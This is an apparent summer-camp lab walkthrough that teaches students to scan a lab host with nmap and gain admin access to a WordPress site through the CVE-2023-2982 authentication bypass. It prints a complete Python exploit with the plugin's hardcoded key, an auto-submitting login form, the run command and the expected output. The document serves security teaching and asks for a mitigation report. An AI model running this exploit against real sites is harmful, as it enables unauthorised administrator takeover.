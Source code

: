 Welcome to GenCyber Summer Camp 2024!  Together we are going to learn how to exploit a website that has a public vulnerability.  Lets see what else we can figure out about this website.  We also know that the website owner emailed us from admin@example.com which might come in handy later.

Lets take a look at: [Download the Free Nmap Security Scanner for Linux/Mac/Windows](https://nmap.org/download.html)
Go ahead and follow the instructions to download nmap onto your device from the website.  Once you have it installed you should be able to run it in your terminal with `nmap <command>`

We were given an IP address that this machine is running on: `144.80.64.114` so using that information read this article: [Port Scanning Basics | Nmap Network Scanning](https://nmap.org/book/man-port-scanning-basics.html) and see what information you can gather about this site.  Don't move onto the next section until you have completed a port scan of the website and make sure to take a screenshot of the scan for your report.

After scanning you should have discovered that ports 443 and 80 are running.  In your browser go to: http://144.80.64.114/ which is the website running on port 80 and have a look around.  After you had some time to explore you should right click and inspect the website:
![[Pasted image 20240626205001.png]](https://raw.githubusercontent.com/alphapuggle/GenCyber2024/main/Pasted%20image%2020240626205001.png)

And then take a look at the applications tab and examine the cookies for the site:
![[Pasted image 20240626210027.png]](https://raw.githubusercontent.com/alphapuggle/GenCyber2024/main/Pasted%20image%2020240626210027.png)
Notice how that table is empty, showing us that we are not logged in.  Now take a look at the network tab and take note of this service that we have running on the site:
![[Pasted image 20240626213842.png]](https://raw.githubusercontent.com/alphapuggle/GenCyber2024/main/Pasted%20image%2020240626213842.png)
This login method is out of date and has known vulnerabilities associated with it which you can read about here: [CVE-2023-2982 : The WordPress Social Login and Register (Discord, Google, Twitter, LinkedIn) plugin for WordPress is vulnerable to authe (cvedetails.com)](https://www.cvedetails.com/cve/CVE-2023-2982/) Make sure to take note of this in your report as well as a screenshot of the running service.
Now that we have a possible login method lets look and see if there are any proof's of concept attacks (POCs) for the attack or public scripts that exploit this attack.  I encourage you to do your own research about this vulnerability but for the purpose of this lab I have found us a POC that we can use: [GitHub - RandomRobbieBF/CVE-2023-2982: WordPress Social Login and Register (Discord, Google, Twitter, LinkedIn) <= 7.6.4 - Authentication Bypass](https://github.com/RandomRobbieBF/CVE-2023-2982/tree/main) Typically you would have to download and modify this file yourself but to prevent errors or anything actually malicious I have uploaded the code you will need here:

create a file called `exploit.py` and put this code in it:
```python
import requests
import os
from Cryptodome.Cipher import AES
from Cryptodome.Util.Padding import pad
import base64
import argparse
import random
import string

# Disable insecure request warnings
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

# Set up session with a custom User-Agent
session = requests.Session()
user_agent = "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36"
session.headers.update({'User-Agent': user_agent})

passphrase = 'jMj7MEdu4wkHObiD'

def try_login(website_url, email):
    website_url = website_url.rstrip('\/') + '/'
    
    # Encrypt and encode email
    cipher = AES.new(passphrase.encode('utf-8'), AES.MODE_ECB)
    padded_email = pad(email.encode('utf-8'), AES.block_size)
    encrypted_email = cipher.encrypt(padded_email)
    encoded_email = base64.b64encode(encrypted_email).decode('utf-8')
    
    try:
        response = session.post(website_url, headers={'Content-Type': 'application/x-www-form-urlencoded'},
                                data={'option': 'moopenid', 'email': encoded_email, 'appName': 'rlHeqZw2vrPzOiWWfCParA=='},
                                allow_redirects=False, verify=False, timeout=10)
        
        if any('wordpress_logged_in' in cookie.name for cookie in session.cookies):
            print("Login Worked!")
            random_string = ''.join(random.choices(string.digits, k=4))
            with open("login.html", 'r') as file:
                file_content = file.read()
                replaced_content = file_content.replace('WEBSITE_REPLACE', website_url).replace('EMAIL_REPLACE', encoded_email)
            
            with open(f"login-{random_string}.html", 'w') as file:
                file.write(replaced_content)
            print(f"To login again, open login-{random_string}.html")
        else:
            print(f"Login Failed with {email}")
    except requests.exceptions.RequestException as e:
        print('Error occurred while logging in:', str(e))

def scan_and_extract(website_url):
    print(f"Crawling {website_url} for email addresses.")
    os.system(f"katana -kf all -u {website_url} -o /tmp/katana.txt")
    print("Using Nuclei to extract emails from links")
    os.system("nuclei -l /tmp/katana.txt -t email-extraction.yaml -nc -nm -fr -o /tmp/nuc.txt")
    
    with open("/tmp/nuc.txt", "r") as f:
        lines = f.readlines()
        emails = set()
        for line in lines:
            matches = re.findall(r'\b[A-Za-z0-9._%+-]+@[A-Za-z0-9.-]+\.[A-Z|a-z]{2,}\b', line)
            emails.update(matches)
    
    with open("/tmp/nuc.txt", "w") as f:
        for email in emails:
            f.write(email + "\n")
    
    for email in emails:
        try_login(website_url, email)

def main():
    parser = argparse.ArgumentParser(description='CVE-2023-2982 Exploit')
    parser.add_argument('-w', '--website_url', required=True, help='Website URL')
    parser.add_argument('-e', '--email', required=False, help='Email')
    args = parser.parse_args()
    
    website_url = args.website_url
    email = args.email
    
    if email:
        try_login(website_url, email)
    else:
        scan_and_extract(website_url)

if __name__ == "__main__":
    main()

```

Create another file called `login.html` and put this code inside of it:
```html
<html>
<head>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/1.11.1/jquery.js" integrity="sha512-eKwZNCvuOhxcqGTXAudC9WH2KUKf8Id1cqNoMc6DKZuN8upL22xj3ZkJdckyDd3Gjsi1QHKZ3ug0XQHQkGRNJg==" crossorigin="anonymous" referrerpolicy="no-referrer"></script>
    <script type="text/javascript">
        $(document).ready(function () {
            window.document.forms[0].submit();
        });
    </script>
</head>
<body>

<p style="font: calibri;">Please wait...</p>
<form action="WEBSITE_REPLACE/?option=moopenid" method="post" id="oauth-form">
    <input type="hidden" name="access_token" value="null"/>
    <input type="hidden" name="token_type" value="null"/>

    <input type="hidden" name="profileUrl" value="null"/>

    <input type="hidden" name="firstName" value="null"/>

    <input type="hidden" name="lastName" value="null"/>

    <input type="hidden" name="appName" value="5mOYjGe8QSZBuYFqNSAS4A=="/>

    <input type="hidden" name="profilePic" value="null"/>

    <input type="hidden" name="userid" value="null"/>

    <input type="hidden" name="email" value="EMAIL_REPLACE"/>

    <input type="hidden" name="username" value="null"/>

</form>
</body>
</html>

```

Before you can run this code you will have to make sure you have python installed on your device which can be found here: [Download Python | Python.org](https://www.python.org/downloads/)

After that you should put these into a txt file called `requirements.txt`:
```
requests 
pycryptodome
```
and then run the command: `pip3 install -r requirements.txt`

Make sure both files are in the same directory as you and run the following command: `python3 exploit.py -w http://144.80.64.114/ -e admin@example.com` Notice how we stole the website owners email from the initial email he sent us.

You should get terminal output that looks like this:
```
>> python3 exploit.py -w http://144.80.64.114/ -e admin@example.com
Login Worked!
To login again, open login-4358.html
```

Now there should be a new .html file in the same directory as your script.  Open it up and it should take you to the website (if for some reason it takes you to localhost/127.0.0.1 just keep reopening the new html file until you return to the blog site) 

Once you are on the new site you should now see a menu open on the left which should greet you as admin meaning you have successfully logged in as an admin user on the site.  To further verify this you can go back into the cookies tab and confirm you are logged in as admin:
![[Pasted image 20240626205943.png]](https://raw.githubusercontent.com/alphapuggle/GenCyber2024/main/Pasted%20image%2020240626205943.png)
Make sure to take a screenshot of this for your report.  Now that you have completed your attack take some time to do some research and write a mini report that you could give to your friend or client outlining this vulnerability.  Your report should outline what vulnerability was found, what it impacts, and how to mitigate it.  Make sure to pull information from some resources we have already seen as well, I'll list these two to start:
[CVE-2023-2982 : The WordPress Social Login and Register (Discord, Google, Twitter, LinkedIn) plugin for WordPress is vulnerable to authe (cvedetails.com)](https://www.cvedetails.com/cve/CVE-2023-2982/)
[OWASP Top Ten | OWASP Foundation](https://owasp.org/www-project-top-ten/)
